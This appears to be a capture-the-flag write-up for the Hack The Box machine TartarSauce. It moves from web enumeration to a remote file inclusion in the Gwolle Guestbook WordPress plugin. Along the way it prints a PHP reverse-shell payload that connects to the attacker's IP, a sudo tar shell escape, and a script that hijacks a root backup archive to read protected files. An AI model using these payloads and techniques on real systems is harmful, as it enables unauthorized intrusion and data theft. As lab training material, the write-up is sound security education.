

# TartarSauce

| | |
|---|---|
| **OS** | Linux |
| **Difficulty** | Medium |
| **Topics** | WordPress Plugin Enumeration Manual, Gwolle Guestbook 1.5.3, Backup Custom Script to read privilege files [NOT Privilege Escalation] |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```markdown
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n -v 10.10.10.88 -oN AllPorts 
```

Result:

```markdown
PORT   STATE SERVICE
80/tcp open  http
```

TCP Full Scan: 

```bash
nmap -p80 --script http-enum* -sCV -Pn -n 10.10.10.88 -oN FullScan  
```

Result: 

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-enum: 
|_  /robots.txt: Robots file
```

Whatweb: 

```markdown
whatweb http://10.10.10.88               
http://10.10.10.88 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.88], Title[Landing Page]

```

Gobuster:

```markdown
/webservices          (Status: 301) [Size: 316] [--> http://10.10.10.88/webservices/]
/server-status        (Status: 403) [Size: 299]

```

Additional enumeration of `webservices/monstra-3.0.4/`

```markdown
gobuster dir -u http://10.10.10.88/webservices/monstra-3.0.4/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Result: 

```markdown
/public               (Status: 301) [Size: 337] [--> http://10.10.10.88/webservices/monstra-3.0.4/public/]
/admin                (Status: 301) [Size: 336] [--> http://10.10.10.88/webservices/monstra-3.0.4/admin/]
/storage              (Status: 301) [Size: 338] [--> http://10.10.10.88/webservices/monstra-3.0.4/storage/]
/plugins              (Status: 301) [Size: 338] [--> http://10.10.10.88/webservices/monstra-3.0.4/plugins/]
/engine               (Status: 301) [Size: 337] [--> http://10.10.10.88/webservices/monstra-3.0.4/engine/]
/libraries            (Status: 301) [Size: 340] [--> http://10.10.10.88/webservices/monstra-3.0.4/libraries/]
/tmp                  (Status: 301) [Size: 334] [--> http://10.10.10.88/webservices/monstra-3.0.4/tmp/]
/boot                 (Status: 301) [Size: 335] [--> http://10.10.10.88/webservices/monstra-3.0.4/boot/]
/backups              (Status: 301) [Size: 338] [--> http://10.10.10.88/webservices/monstra-3.0.4/backups/]

```

Wfuzz: Enumerating further `/webservices`

```php
wfuzz -c --hc=400,403,404 -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.88/webservices/FUZZ
```

```php
000000779:   301        9 L      28 W       319 Ch      "wp"  
```

Accessing `http://10.10.10.88/webservices/wp/`

Found a Wordpress site: 



Trying to access one of the entries it redirects to `http://tartarsauce.htb/webservices/wp/index.php/2018/02/09/hello-world/`

This indicates that service is using virtual hosting and we need to add the IP and hostname to the `/etc/hosts`


WPScan: 

```php
wpscan --url http://tartarsauce.htb/webservices/wp --enumerate ap,at,cb,dbe
```

Result:

```php
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tartarsauce.htb/webservices/wp/ [10.10.10.88]
[+] Started: Tue Mar  4 23:25:23 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://tartarsauce.htb/webservices/wp/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://tartarsauce.htb/webservices/wp/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://tartarsauce.htb/webservices/wp/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9.4 identified (Insecure, released on 2018-02-06).
 | Found By: Rss Generator (Passive Detection)
 |  - http://tartarsauce.htb/webservices/wp/index.php/feed/, <generator>https://wordpress.org/?v=4.9.4</generator>
 |  - http://tartarsauce.htb/webservices/wp/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.9.4</generator>

[+] WordPress theme in use: voce
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/
 | Latest Version: 1.1.0 (up to date)
 | Last Updated: 2017-09-01T00:00:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/readme.txt
 | Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css?ver=4.9.4
 | Style Name: voce
 | Style URI: http://limbenjamin.com/pages/voce-wp.html
 | Description: voce is a minimal theme, suitable for text heavy articles. The front page features a list of recent ...
 | Author: Benjamin Lim
 | Author URI: https://limbenjamin.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css?ver=4.9.4, Match: 'Version: 1.1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating All Themes (via Passive and Aggressive Methods)
^[ Checking Known Locations - Time: 00:13:45 <============================================================            > (24490 / 29115) 84.11%  ETA: 00:02:^[ Checking Known Locations - Time: 00:13:47 <============================================================            > (24550 / 29115) 84.32%  ETA: 00:02: Checking Known Locations - Time: 00:16:20 <=======================================================================> (29115 / 29115) 100.00% Time: 00:16:20
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentyfifteen
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.9
 | Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/style.css
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/, status: 500
 |
 | Version: 1.9 (80% confidence)
 | Found By: Style (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyfifteen/style.css, Match: 'Version: 1.9'

[+] twentyseventeen
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/, status: 500
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 1.4'

[+] twentysixteen
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 3.4
 | Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/style.css
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/, status: 500
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/twentysixteen/style.css, Match: 'Version: 1.4'

[+] voce
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/
 | Latest Version: 1.1.0 (up to date)
 | Last Updated: 2017-09-01T00:00:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/readme.txt
 | Style URL: http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css
 | Style Name: voce
 | Style URI: http://limbenjamin.com/pages/voce-wp.html
 | Description: voce is a minimal theme, suitable for text heavy articles. The front page features a list of recent ...
 | Author: Benjamin Lim
 | Author URI: https://limbenjamin.com
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/, status: 500
 |
 | Version: 1.1.0 (80% confidence)
 | Found By: Style (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css, Match: 'Version: 1.1.0'

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:04 <============================================================================> (137 / 137) 100.00% Time: 00:00:04

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:02 <==================================================================================> (75 / 75) 100.00% Time: 00:00:02

[i] No DB Exports Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Mar  4 23:42:01 2025
[+] Requests Done: 29351
[+] Cached Requests: 40
[+] Data Sent: 8.483 MB
[+] Data Received: 4.348 MB
[+] Memory used: 364.23 MB
[+] Elapsed time: 00:16:38

```

However no evidence of Plugins installed was found. 

Enumerating futher with Wfuzz:

```php
wfuzz -c --hc=400,403,404 -t 20 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://tartarsauce.htb/webservices/wp/FUZZ

```

Result:

```php
000000468:   200        0 L      0 W        0 Ch        "wp-content/plugins/akismet/"                                                             
000004504:   200        0 L      0 W        0 Ch        "wp-content/plugins/gwolle-gb/"                                                           
000004592:   500        0 L      0 W        0 Ch        "wp-content/plugins/hello.php"                                                            
000004593:   500        0 L      0 W        0 Ch        "wp-content/plugins/hello.php/"   
```

Found 3 Plugins installed. 

# Initial Access

After discovering the Wordpress Site, we identified a potential vulnerability associated with the plugin `Gwolle Guestbook 1.5.3`

Checking in Searchsploit: Cheching the explotis we can see one result for the plugin Gwolle GB


Inspecting the exploit content we will see the following insight: 

HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

```php
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code.

Based on this information, we will be abusing the resource `ajaxresponse.php?abspath=` to pass our remote URL containing the malicious code. 

First, let’s test the vulnerability with a simple request towards our malicious server. 

```php
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.3/
```

Result:


We can see that by default the server is requesting a file identified as `wp-load.php` which currently does not exist on the server. 

With this in mind, need to create a payload and save it into a file with name `wp-load.php`

Payload: 

```php
<?php system(" bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'"); ?>
```

Start the http server in our kali and try to request our malicious payload: 

```php
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.3/
```

As a result we will get the shell: 


We got access as user `www-data`

## Lateral Movement:

Checking the current privileges assigned to the user `www-data`  we will see that we can execute as user `onuma` the command `tar`


This can allows to spawn a shell in the context of the user onuma.

Checking the [GTFObins](https://gtfobins.github.io/gtfobins/tar/) we can see the command that help us to achieve this. 

```bash

sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Note: for this command we need to specity the user under which the command will be executed, in this case the user onuma. 


Success, we have a shell as user `onuma`

# Privilege Escalation

Using the following scrip we can inspect for any schedule tasks being executed on the machine: 

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true
do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
	old_process=$new_process
	
done
```

After waiting some minutes we will see the following output: 

```bash
> /bin/bash /usr/sbin/backuperer
< /lib/systemd/systemd-udevd
> /bin/bash /usr/sbin/backuperer
< /bin/bash /usr/sbin/backuperer
> /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
> /bin/sleep 30
> /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
> gzip
< gzip
> [gzip] <defunct>
< /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
< /bin/tar -zcvf /var/tmp/.a499c0eb3d41cbc52f357de238cdb9f22f024997 /var/www/html
```

We can see the execution of the script identified as `/bin/bash /usr/sbin/backuperer`

Checking the content we can see the following instructions: 

```bash
!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi

```

Inspecting the script we can see that it creates a compress file for the content of the `/var/www/html` and saves it temporary on the folder `/var/tmp` as hidden (.) 

After that, there is a sleep period of 30seconds and executes a diff evaluation from the content that is compressed with the content that is currently on the directory `/var/www/html`, in case there is a difference, the scripts reports the difference file to the log `/var/backups/onuma_backup_error.txt`

To verify all the previous, we can first monitor manuall with `watch` the content of the folder `/var/backups/`

```bash
watch -n1 -x ls -ls /var/tmp
```

After some time we will a hidden file being created: 


Since the content is being compressed and later being compared after the descompress with the original one, we can try to hijack the compressed file with a version generated from our kali that contains one of the file that points to another file using a symbolic link.

Since the difference will reported, we will be able to see the content of the file that is being referenced. 

From our kali machine: 

Lets try to create the symbolic link:

```bash
ln -s -f /root/root/txt /var/www/html/index.html 
```


Compress the content of `/var/www/html:`

```bash
 tar -zcvf compress.tar /var/www/html
```


Transfer the tar file to the target machine using a temporary http server on kali:


Move the file to the path `/var/tmp` with name `compress.tar`

After that, create the following script in the same path `/var/tmp` 

```bash
#!/bin/bash

A=`ls -las | wc -l`

while (( $A <= 13 )); do
        #Wait one second to not overload the system
        sleep 1

        #Executes the operation again
        A=`ls -las | wc -l`
done

if (( $A > 13 )); then
        #Execute the search for the file to grab the name and store it in B variable
        B=`find . -user onuma 2>/dev/null | grep -Ev "test|compress" | cut -d"/" -f2`
        echo -e "[!] File found: $B"
        #Renames the original file with a backup version
        mv $B $B.bk
        #Replace our malicious tar file with the name of the original file
        mv compress.tar $B

fi 
```

At the end, we should have only 2 files: the `compress.tar` and the script itself.

Execute until you see the following results: 

Here we can see that it found the file: 


Here we can see the replacement of the file:


And at the end we can see the flag for root: 

